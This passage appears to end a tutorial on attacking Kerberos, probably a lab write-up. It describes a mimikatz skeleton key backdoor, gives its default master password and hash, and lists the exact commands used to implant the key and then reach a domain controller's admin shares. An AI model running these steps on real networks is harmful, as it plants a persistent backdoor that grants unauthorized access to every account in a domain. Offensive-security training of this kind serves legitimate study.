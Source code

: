 Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password. 

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 

The default hash for a mimikatz skeleton key is _60BA4FCADC466C7A033C178194C03DF6_ which makes the password -"_mimikatz_"

## Skeleton Key Overview

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

![](https://i.imgur.com/yNI0zEb.png)

## Preparing Mimikatz

1.) `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

![](https://i.imgur.com/ZPOMDMo.png)  

## Installing the Skeleton Key w/ mimikatz

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful

![](https://i.imgur.com/wI802gw.png)  

## Accessing the forest

The default credentials will be: "_mimikatz_"  

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

# Conclusion

We've gone through everything from the initial enumeration of Kerberos, dumping tickets, pass the ticket attacks, kerberoasting, AS-REP roasting, implanting skeleton keys, and golden/silver tickets. I encourage you to go out and do some more research on these different types of attacks and really find what makes them tick and find the multitude of different tools and frameworks out there designed for attacking Kerberos as well as active directory as a whole.
